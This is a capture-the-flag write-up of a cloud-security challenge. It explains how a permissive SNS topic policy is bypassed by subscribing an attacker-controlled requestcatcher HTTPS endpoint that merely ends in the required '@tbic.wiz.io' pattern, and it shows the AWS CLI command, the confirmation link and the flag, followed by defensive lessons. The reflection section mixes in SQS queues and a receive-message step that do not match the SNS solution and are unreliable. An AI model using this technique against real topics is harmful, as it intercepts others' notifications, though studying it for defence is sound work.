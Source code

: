 # Challenge number
Challenge: 3

## Challenge Statement
In this challenge, I was tasked with subscribing to an SNS topic and confirming the subscription. The IAM policy provided in the challenge allowed me to subscribe to the TBICWizPushNotifications SNS topic if the endpoint matched the specified condition *@tbic.wiz.io. My goal was to subscribe using a valid endpoint and confirm the subscription to receive notifications.

## IAM Policy
```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```
### Short Analysis about Challenge
**What do I have access to?**

The IAM policy allows public access for subscribing to the SNS topic with the SNS:Subscribe action. The policy specifies that anyone can subscribe, but only endpoints with the domain @tbic.wiz.io are permitted through the condition sns:Endpoint. This means anyone can interact with the topic as long as the provided endpoint meets the specified condition.

**What don't I have access to?**

While I have the permission to subscribe, I do not have access to perform any other administrative tasks related to the SNS topic. This includes actions such as publishing messages to the topic, modifying the topic's settings, or removing subscriptions. The policy grants permission for subscribing but doesn't provide broader control over the SNS topic itself.

**What do I find interesting?**

The policy's allowance for any principal (i.e., anyone) to subscribe, as long as the endpoint matches @tbic.wiz.io, is intriguing because it balances openness with a condition. While this might seem like a flexible setup, the openness of AWS: * raises concerns, as anyone could exploit this by creating an endpoint matching the condition. It’s an interesting design choice, but it could lead to unintended exposure of the service.

**What could an attacker do with this access?**

An attacker could potentially abuse this access by subscribing a malicious endpoint that matches the @tbic.wiz.io condition. Once subscribed, the attacker could receive sensitive notifications or data sent to the topic. Since there is no further control on the subscription beyond the endpoint condition, attackers could gather confidential information or trigger unintended actions if the topic sends alerts or triggers workflows upon new messages.
  
**How could this misconfiguration have been avoided?**

This misconfiguration could have been avoided by tightening the permissions around who is allowed to subscribe to the SNS topic. Instead of allowing open access with AWS: *, a more secure setup would restrict access to specific, trusted AWS identities (IAM roles or users). Furthermore, a more granular condition, such as IP address restrictions or more specific endpoint checks, could be applied. Additionally, confirming subscriptions only from known, trusted endpoints would help avoid malicious subscriptions.


## Solution
**Step-1: Capture the Flag Using Requestcatcher**

To begin the process, I used Requestcatcher to create a temporary endpoint to subscribe to the SNS topic. This would allow me to receive the messages sent by the SNS topic.
```
https://requestcatcher.com/
```
**Step-2: Subscribe to the SNS Topic**

To subscribe to the SNS topic, I used the aws sns subscribe command, specifying the topic ARN and the endpoint that matches the required condition (@tbic.wiz.io).
```
aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol https \
    --notification-endpoint 'https://ashish.requestcatcher.com/test@tbic.wiz.io'
```

**Step 3: Confirm the Subscription**

After subscribing, SNS sent a confirmation message to the provided endpoint. To confirm the subscription, I accessed the confirmation link provided in the message. The URL included a Token parameter that I used to confirm the subscription.
```
https://sns.us-east-1.amazonaws.com/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications&Token=2336412f37fb687f5d51e6e2425a8a5872376d572991ca2da28f73768f1d8b95ea0f71895f216143f2f1037cc2ea5795e8b34921442cff336606b3cb79056939a430c18dea0854ec15350ecd88fda926cac07c59061146a0af550e5fab5d7e0a4c29d2cf5ddcc7ded4c8b33b5f2ad181ec8f386ad8e71e01227dbb98985917a9

```
Once I clicked the confirmation link, the subscription was confirmed, and I was able to receive notifications from the SNS topic.

**Step 4: Receive the Message**

After confirming the subscription, I started receiving messages from the SNS topic. These messages contained the relevant information, including the flag or other useful data, which I could then extract for further use.
```
flag: {wiz:always-suspect-asterisks}
```
**Step 5: Submit the Flag**

Finally, I submitted the retrieved flag on the challenge platform.

## Reflection
**What was your approach?**

My approach involved understanding the specific condition in the IAM policy, which restricted access to endpoints ending with @tbic.wiz.io. Once I understood that, I focused on subscribing to the SNS topic with the correct endpoint and confirmed my subscription before proceeding with the rest of the process.
  
**What was the biggest challenge?**

The biggest challenge was ensuring my endpoint matched the condition specified in the IAM policy (@tbic.wiz.io). Once that was clear, I followed the SNS subscription and confirmation steps carefully.
  
**How did you overcome the challenges?**

I overcame this challenge by reviewing the IAM policy to understand the condition and selecting an appropriate endpoint. Using the AWS CLI, I tested different commands to confirm I had the correct permissions to subscribe to the SNS topic and receive messages.
  
**What led to the break through?**

The breakthrough came when I successfully executed the receive-message command, which allowed me to pull messages from the queue. I then found the message containing the flag, marking the success of the process.
  
**On the blue side, how can the learning be used to properly defend the important assets?**

This experience reinforced the importance of the principle of least privilege. To protect critical assets, like SQS queues, organizations should avoid granting overly broad permissions and restrict access to only trusted users or services. Regular audits and reviews of IAM policies help minimize the risk of unauthorized access and prevent security vulnerabilities.
